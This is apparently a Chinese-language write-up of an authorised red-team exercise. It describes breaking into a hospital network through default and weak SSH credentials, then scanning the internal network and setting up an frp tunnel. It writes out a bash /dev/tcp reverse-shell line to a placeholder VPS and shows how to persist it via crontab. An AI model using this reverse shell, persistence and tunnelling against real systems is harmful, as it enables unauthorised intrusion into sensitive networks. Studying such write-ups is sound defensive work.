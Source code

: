 **声明：本次所有目标均获得授权，文章内容仅供安全研究人员学习提升所用，请勿用文章内知识用于违法犯罪。**

0x00 写个开头凑字数
============

这次攻防打的还是比较有意思的，开局电脑摆烂恼火的很，最后没电脑只能拿着销售的电脑疯狂输出。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-32d7dd061a01e12e93c523eb1b88131d5a085e1b.png)

去拿电脑没一会的功夫我们的私有目标就被干出局了，这次的规则还是有点问题按系统分给各个队伍，不是按照目标单位分的，别人分到我们私有目标的部分系统基础分和数据分薅完一下被干出局了，后面再打只有100路径分，还有老6盯着我们的私有目标打，有个泛微office的洞我们手上没有，目标一放出来就穿了，怪自己太菜了。

排名最后还算理想吧最终排名第三，跟两个技术大哥没后端支撑的情况排到前三还是可以的，前面两位重量级选手卷不过啊，一个提交0day另外一个后端支撑有名的卷，最后前两名分数比我们高出一半多。

废话讲完了，开始我们的内容，码打的严师傅们勿怪，文章最后欢迎师傅们留下评论来交流。

0x01 目标
=======

某医院外网弱口令
--------

第一天分了私有目标和公共目标，这个目标是公共池目标，运气也是比较好外网一个弱口令直接进去了，主要就是要知道IP地址，突破到内网这里没啥技术含量，目标给的是一个官网的地址，估计其他队伍的师傅们都去冲云上官网那个IP了，后面云上的我们也通过信息科专用共享服务器上密码文件拿到了所有权限。

### 攻击路径

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-c87ae033b03ab5263d8aa76bd89163342fd79beb.png)

下面我会按照上面图上标记的序号说明内网攻击过程

### 路径1/路径2 外网弱口令

这里说下这个目标IP怎么来的，通过IP地址收集C段信息找到h3c设备，默认审计账号密码登陆上去命令控制台查看对应授权信息确定是目标IP地址，但是审计账号没有配置权限没法做vpn隧道这些，所以做了个全端口扫描发现一个非标准端口的ssh弱口令，这里拿到服务器权限后我先做了一个反弹shell计划任务。

crontab -e编辑计划任务

```php
bash -c 'exec bash -i &>/dev/tcp/you vps ip/you vps port <&1'
```

做完计划任务之后我才上fscan扫描，发现内网很多ssh、mssql弱口令，ssh反弹shell计划任务又做了几台，防止一会动作太大掉了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-370c9b57d46ee0286431d3fe24e42c97c4e1739f.png)

内网弱口令一薅一大把，建个frp方便一会去内网翻东西，下载对应编译好的版本就可以。

项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_linux_amd64.tar.gz)

frp server

```php
[common]
bind_port = 8945
```

frp client
